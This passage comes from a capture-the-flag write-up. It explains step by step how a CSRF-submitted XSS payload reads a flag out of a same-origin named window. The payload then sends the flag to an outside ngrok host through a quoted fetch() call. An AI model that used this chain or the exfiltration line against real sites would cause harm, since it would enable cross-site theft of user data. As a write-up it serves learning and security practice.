 1. Browser loaded our `/pb` page served up by our `app.js`.
2. `window.open('https://tbdxss.chal.perfect.blue/note', 'flagWindow');` ran which opened a new window with a name of `flagWindow` which displays our note (`sam`).
3. `payload.value="..."` ran which places our XSS payload into the form field
4. `noteform.submit()` ran which submitted (using CSRF) our payload to the challenge server
5. Because the form had `target="_blank"` in it, the form response showed up in a new window which is **really important** since it allows the script in the current window to continue running.
6. After 5 second (thanks to `setTimeout()`) we navigate the current window to `https://tbdxss.chal.perfect.blue/note`
7. This loads our previously-posted XSS payload which then begins to run.
8. `let flagWindow = window.open('', 'flagWindow')` runs which doesn't actually open a new window. It just latches onto the previously-opened window with that name and stores the window reference into `flagWindow`.
9. `let flag = flagWindow.document.documentElement.innerText;` runs which reaches into that window to read the flag out of the DOM. Again, this is allowed under the rules of CORS since the current window and the `flagWindow` are from the same origin.
10. `fetch('http://8709-68-51-145-201.ngrok.io/?flag=' + flag)` runs which exiltrates the flag.

We can see this exfiltration in our localhost:4040 window thanks to ngrok.

![](media/exfil1.png)

So... it worked!  But, remember, we are doing this inside our own browser rather than the pupeteer controled browser.

## Try for the flag #1

When we submitted our URL to the challenge server... it didn't work.  We saw the bot.js browser request our page BUT we didn't get any other traffic.
